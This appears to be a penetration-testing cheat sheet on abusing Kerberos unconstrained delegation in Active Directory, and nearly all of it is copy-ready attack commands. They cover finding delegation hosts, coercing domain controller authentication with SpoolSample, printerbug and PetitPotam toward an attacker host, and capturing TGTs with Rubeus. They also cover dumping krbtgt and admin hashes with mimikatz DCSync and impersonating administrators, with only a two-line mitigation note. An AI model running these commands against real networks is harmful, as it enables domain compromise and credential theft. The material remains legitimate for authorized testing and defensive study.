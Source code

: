 # Kerberos Delegation - Unconstrained Delegation

> The user sends a ST to access the service, along with their TGT, and then the service can use the user's TGT to request a ST for the user to any other service and impersonate the user.
> When a user authenticates to a computer that has unrestricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory.

:warning: Unconstrained delegation used to be the only option available in Windows 2000

> **Warning**
> Remember to coerce to a HOSTNAME if you want a Kerberos Ticket

The goal is to gain DC Sync privileges using a computer account and the SpoolService bug.

**Requirements**:

- Object with Property **Trust this computer for delegation to any service (Kerberos only)**
- Must have **ADS_UF_TRUSTED_FOR_DELEGATION**
- Must not have **ADS_UF_NOT_DELEGATED** flag
- User must not be in the **Protected Users** group
- User must not have the flag **Account is sensitive and cannot be delegated**

## Find delegation

:warning: : Domain controllers usually have unconstrained delegation enabled.
Check the `TRUSTED_FOR_DELEGATION` property.

- [ADModule](https://github.com/samratashok/ADModule)

  ```powershell
  # From https://github.com/samratashok/ADModule
  PS> Get-ADComputer -Filter {TrustedForDelegation -eq $True}
  ```

- [bloodyAD](https://github.com/CravateRouge/bloodyAD)

  ```ps1
  bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))' --attr sAMAccountName,userAccountControl
  ```
  
- [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)

  ```powershell
  $> ldapdomaindump -u "DOMAIN\\Account" -p "Password123*" 10.10.10.10   
  grep TRUSTED_FOR_DELEGATION domain_computers.grep
  ```

- [netexec module](https://github.com/Pennyw0rth/NetExec/wiki)

  ```powershell
  nxc ldap 10.10.10.10 -u username -p password --trusted-for-delegation
  ```

- BloodHound: `MATCH (c:Computer {unconstraineddelegation:true}) RETURN c`
- Powershell Active Directory module: `Get-ADComputer -LDAPFilter "(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -Properties DNSHostName,userAccountControl`

## Kerberoasting Unconstrained Delegation 

* **Rubeus**                                                                                                                                                          
  Monitor for New TGT's                                                                                                                                               
  ```powershell                                                                                                                                                       
  .\Rubeus.exe monitor /interval:5 /nowrap                                                                                                                            
  ```                                                                                                                                                                 
  Use the recieved ticket to access a resource                                                                                                                        
  ```powershell                                                                                                                                                       
  .\Rubeus.exe asktgs /ticket:<Recieved Ticket> /service:<SPN> /ptt                                                                                                   
  ```                                                                                                                                                                 
  If the above doesn't work, we use renew to get a brand new TGT instead of a TGS
  ```powershell
  .\Rubeus.exe renew /ticket:<ticket> /ptt                                                                                                                            
  ```

## The Printer Bug (exploit w/ [SpoolSample POC](https://github.com/leechristensen/SpoolSample) & Rubeus

> There is a bug in the Print System Remote protocol that can force a computer to authenticate to any computer in the domain, thus allowing us to capture the machine TGT

* **We can use the [SpoolSample POC](https://github.com/leechristensen/SpoolSample) to accomplish this**

### Execution
  Note: 2 computers, sql01 & DC01
  From SQL01:
  ```powershell
  .\Rubeus.exe monitor /interval:5 /nowrap
  ```
  Open another PS windowson SQL01
  ```powershell
  #Syntax
  .\SpoolSample.exe <TargetServer> <CaptureServer>
  # Example
  .\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local
  # This should force DC01 to auth to SQL01 thus giving us the TGT of the DC
  ```
  Renew the captured TGT w/ Rubeus
  ```powershell
  .\Rubeus.exe renew /ticket:<ticket> /ptt
  ```
  If we manage to capture the tgt, we can perform a DCSync and pwn the domain

Example
  Dumping an admin user w/ mimikatz
  ```powershell
  mimikatz.exe
  mimikatz > lsadump::dcsync /user:<Admin Username>
  ```
  Rubeus to request a ticket as that admin user
  ```powershell
  .\Rubeus.exe asktgt /rc4:<NTLM hash> /user:<admin username> /ptt
  ```
  We can now use this ticket to impersonate the administrative user.

## SpoolService Abuse with Unconstrained Delegation Using SpoolSample, krbrelayx, & dementor

### SpoolService status

Check if the spool service is running on the remote host

```powershell
ls \\dc01\pipe\spoolss
python rpcdump.py DOMAIN/user:password@10.10.10.10
```

### Monitor with Rubeus

Monitor incoming connections from Rubeus.

```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

### Force a connect back from the DC

Due to the unconstrained delegation, the TGT of the computer account (DC$) will be saved in the memory of the computer with unconstrained delegation. By default the domain controller computer account has DCSync rights over the domain object.

> [SpoolSample PoC](https://github.com/leechristensen/SpoolSample) is a PoC to coerce a Windows host to authenticate to an arbitrary server using a "feature" in the MS-RPRN RPC interface.

```powershell
.\SpoolSample.exe VICTIM-DC-NAME UNCONSTRAINED-SERVER-DC-NAME
.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB
# DC01.HACKER.LAB is the domain controller we want to compromise
# HELPDESK.HACKER.LAB is the machine with delegation enabled that we control.

### krbrelayx
# From https://github.com/dirkjanm/krbrelayx
printerbug.py 'domain/username:password'@<VICTIM-DC-NAME> <UNCONSTRAINED-SERVER-DC-NAME>

# From https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc#gistcomment-2773689
python dementor.py -d domain -u username -p password <UNCONSTRAINED-SERVER-DC-NAME> <VICTIM-DC-NAME>
```

If the attack worked you should get a TGT of the domain controller.

### Load the ticket

Extract the base64 TGT from Rubeus output and load it to our current session.

```powershell
.\Rubeus.exe asktgs /ticket:<ticket base64> /service:LDAP/dc.lab.local,cifs/dc.lab.local /ptt
```

Alternatively you could also grab the ticket using Mimikatz :  `mimikatz # sekurlsa::tickets`

Then you can use DCsync or another attack : `mimikatz # lsadump::dcsync /user:HACKER\krbtgt`

### Mitigation

- Ensure sensitive accounts cannot be delegated
- Disable the Print Spooler Service

## MS-EFSRPC Abuse with Unconstrained Delegation

Using `PetitPotam`, another tool to coerce a callback from the targeted machine, instead of `SpoolSample`.

```bash
# Coerce the callback
git clone https://github.com/topotam/PetitPotam
python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP

# Extract the ticket
.\Rubeus.exe asktgs /ticket:<ticket base64> /ptt
```

## References

- [Exploiting Unconstrained Delegation - Riccardo Ancarani - 28 APRIL 2019](https://www.riccardoancarani.it/exploiting-unconstrained-delegation/)
- [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts - Roberto Rodriguez - Nov 28, 2018](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
- [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory - Elad Shamir - 28 January 2019](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
